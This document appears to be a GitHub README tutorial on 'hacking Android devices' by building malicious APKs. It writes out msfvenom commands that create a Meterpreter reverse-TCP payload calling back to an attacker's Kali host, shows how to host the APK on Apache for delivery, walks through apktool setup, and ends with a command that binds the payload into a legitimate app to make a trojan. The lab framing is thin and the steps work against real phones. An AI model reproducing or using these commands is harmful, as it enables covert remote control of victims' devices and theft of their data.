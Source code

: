 # Hacking-Android-Devices
Hacking Android Devices using malicious APK's

1st creating a simple malicious apk file using msfvenom
<pre>msfvenom -p android/meterpreter/reverse_tcp LHOST=kali_ip LPORT=2222 -o /root/malicious.apk</pre>

Send the file to the mobile or android lab using
<pre>mv malicious.apk /var/www/html/</pre>
<pre>service apache2 start</pre>
<pre>service apaceh2 status</pre>

-----------------------------------------------------------------
2nd Bind the payload in the legitimate android app using APKTOOl

Pre-requisites/ Libraries
Check if the APKTOOL version contains DIRTY
<pre>apktool --version</pre>
If it contains DIRTY in the version then remove it
<pre>apt remove apktool</pre>
Then follow next steps:
<pre>apt update</pre>
<pre>apt install zipalign</pre>
<pre>apt install default-jdk</pre>
<pre>apt install default-jre</pre>
<pre>apt install jarsigner</pre>
<pre>apt install apksigner</pre>
<pre>apt install libcurses5</pre>
<pre>apt install libncurses6</pre>
<pre>apt install lib32z1</pre>
<pre>apt install lib32stdc++6</pre>
Once all the above is done. reboot Kali Linux
<pre>reboot</pre>
After rebooting
go to browser
<pre>apktool.org</pre>
Then INSTALL > under Linux > click WRAPPER SCRIPT > Copy and paste the code in an EMPTY file on KALI LINUX Desktop and name it APKTOOL.<br>
Then click LATEST VERSION of apktool > Download which ever is the latest version of apktool_2.12.2.jar<br>
After downloading rename apktool_2.12.2.jar to apktool.jar<br>
Move both files to this directory
<pre>mv apktool apktool.jar /usr/local/bin/</pre>
Give executable permissions to apktool<br>
<pre>chmod +x apktool</pre>
Check the APKTOOL version now
<pre>apktool --version</pre>
Once you get the response like: 2.12.2<br>
<pre>msfvenom -x ORIGINAL.apk -p android/meterpreter/reverse_tcp LHOST=Kali_ip LPORT=2222 -o /root/binded.apk</pre>

